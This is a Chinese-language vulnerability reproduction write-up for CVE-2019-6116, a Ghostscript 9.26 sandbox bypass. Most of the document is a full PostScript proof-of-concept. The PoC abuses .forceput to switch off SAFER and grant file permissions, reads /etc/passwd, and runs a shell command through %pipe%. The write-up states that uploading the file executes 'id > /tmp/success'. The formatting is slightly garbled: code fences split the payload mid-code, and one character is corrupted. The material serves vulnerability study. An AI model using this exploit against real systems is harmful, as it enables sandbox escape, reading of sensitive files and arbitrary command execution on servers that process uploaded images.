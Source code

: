 ```yaml
---
title: （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞
id: zhfly2954
---
```


# （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

Ghostscript 9.26版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Ghostscript 9.26版本

## 三、复现过程

**poc.png**

```
%!PS
% extract .actual_pdfpaintproc operator from pdfdict
/.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

/exploit {

(Stage 11: Exploitation…)=

```
/forceput exch def

systemdict /SAFER false forceput
userparams /LockFilePermissions false forceput
systemdict /userparams get /PermitFileControl [(*)] forceput
systemdict /userparams get /PermitFileWriting [(*)] forceput
systemdict /userparams get /PermitFileReading [(*)] forceput

% update
save restore

% All done.
stop 
```

} def

errordict /typecheck {

/typecount typecount 1 add def

(Stage 10: /typecheck #)=only typecount ==

```
% The first error will be the .knownget, which we handle and setup the
% stack. The second error will be the ifelse (missing boolean), and then we
% dump the operands.
typecount 1 eq { null } if
typecount 2 eq { pop 7 get exploit } if
typecount 3 eq { (unexpected)= quit }  if 
```

} put

% The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some

% executable arrays onto the operand stack that contain .forceput, but are not

% marked as executeonly or pseudo-operators.

%

% The routine was attempting to pass them to ifelse, but we can cause that to

% fail because when the routine was declared, it used `bind` but many of the

% names it uses are not operators and so are just looked up in the dictstack.

%

% This means we can push a dict onto the dictstack and control how the routine

% works.

<<

/typecount      0

/PDFfile        { (Stage 0: PDFfile)= currentfile }

/q              { (Stage 1: q)= } % no-op

/oget           { (Stage 3: oget)= pop pop 0 } % clear stack

/pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op

/gput           { (Stage 5: gput)= }  % no-op

/resolvestream  { (Stage 6: resolvestream)= } % no-op

/pdfopdict      { (Stage 7: pdfopdict)= } % no-op

/.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index

/pdfdict        { (Stage 9: pdfdict)=

% cause a /typecheck error we handle above

true

}

>> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

(Should now have complete control over ghostscript, attempting to read /etc/passwd…)=

% Demonstrate reading a file we shouldnt have access to.

(/etc/passwd) ® file dup 64 string readline pop == closefile

(Attempting to execute a shell command…)= flush

% run command

(%pipe%id > /tmp/success) (w) file closefile

(All done.)= `quit` 
```

上传这个poc文件，即可执行`id > /tmp/success`：

![image](../img/1955e4e86937e64a9a8f004eafe2f234.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2019-6116/